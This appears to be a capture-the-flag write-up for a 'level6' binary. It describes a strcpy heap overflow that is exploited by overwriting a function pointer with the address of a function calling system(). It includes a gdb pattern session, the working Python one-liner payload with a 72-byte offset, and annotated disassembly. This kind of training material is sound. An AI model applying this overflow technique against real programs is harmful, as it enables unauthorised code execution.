 - attack: buffer overflow
- binary behavior: segfault without parameter, Nope with parameter
- targeted functions: n, m and main
- vulnerability in n: strcpy() in comparison to strncpy() has no limitimg argument
- defense: function n with system call is non-called

Method:
- find the overflow size of strcpy
- find eip offest size after overwlofing strcpy
- find the address of n function
- overflow and change eip address by n address
 
Info:
- offset size - 72
- 08048454 - address of n function
- same in hex - \x54\x84\x04\x08

Code:
objdump -d ./level6
gdb level6
(gdb) set args Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
(gdb) r
./level6 $(python -c 'print "b" * 72 + "\x54\x84\x04\x08"') 

QA:
- how do we know the correct offset?
- overflow by any number -> get address and put it in 'find offset' (pattern and offset are related)

Functions

0804847c <main>:
 804847c:       55                      push   %ebp
 804847d:       89 e5                   mov    %esp,%ebp
 804847f:       83 e4 f0                and    $0xfffffff0,%esp
 8048482:       83 ec 20                sub    $0x20,%esp
 8048485:       c7 04 24 40 00 00 00    movl   $0x40,(%esp)
 804848c:       e8 bf fe ff ff          call   8048350 <malloc@plt>
 8048491:       89 44 24 1c             mov    %eax,0x1c(%esp)
 8048495:       c7 04 24 04 00 00 00    movl   $0x4,(%esp)
 804849c:       e8 af fe ff ff          call   8048350 <malloc@plt>
 80484a1:       89 44 24 18             mov    %eax,0x18(%esp)
 80484a5:       ba 68 84 04 08          mov    $0x8048468,%edx
 80484aa:       8b 44 24 18             mov    0x18(%esp),%eax
 80484ae:       89 10                   mov    %edx,(%eax)
 80484b0:       8b 45 0c                mov    0xc(%ebp),%eax
 80484b3:       83 c0 04                add    $0x4,%eax
 80484b6:       8b 00                   mov    (%eax),%eax
 80484b8:       89 c2                   mov    %eax,%edx
 80484ba:       8b 44 24 1c             mov    0x1c(%esp),%eax
 80484be:       89 54 24 04             mov    %edx,0x4(%esp)
 80484c2:       89 04 24                mov    %eax,(%esp)
 80484c5:       e8 76 fe ff ff          call   8048340 <strcpy@plt> # vulnerability
 80484ca:       8b 44 24 18             mov    0x18(%esp),%eax
 80484ce:       8b 00                   mov    (%eax),%eax
 80484d0:       ff d0                   call   *%eax
 80484d2:       c9                      leave
 80484d3:       c3                      ret

08048454 <n>:
 8048454:       55                      push   %ebp
 8048455:       89 e5                   mov    %esp,%ebp
 8048457:       83 ec 18                sub    $0x18,%esp
 804845a:       c7 04 24 b0 85 04 08    movl   $0x80485b0,(%esp)
 8048461:       e8 0a ff ff ff          call   8048370 <system@plt> #exploit
 8048466:       c9                      leave
 8048467:       c3                      ret

08048468 <m>:
 8048468:       55                      push   %ebp
 8048469:       89 e5                   mov    %esp,%ebp
 804846b:       83 ec 18                sub    $0x18,%esp
 804846e:       c7 04 24 d1 85 04 08    movl   $0x80485d1,(%esp)
 8048475:       e8 e6 fe ff ff          call   8048360 <puts@plt> # prints Nope
 804847a:       c9                      leave
 804847b:       c3                      ret

